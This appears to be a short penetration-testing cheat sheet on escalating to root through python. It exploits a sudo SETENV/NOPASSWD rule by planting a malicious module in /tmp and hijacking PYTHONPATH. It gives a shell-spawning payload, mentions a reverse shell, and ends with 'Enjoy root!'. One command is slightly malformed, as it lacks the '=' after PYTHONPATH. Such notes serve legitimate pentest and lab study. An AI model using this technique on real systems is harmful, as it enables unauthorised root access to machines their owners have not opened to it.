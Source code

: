 ### There are multiple ways to escalate with python

## EXAMPLES:

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!
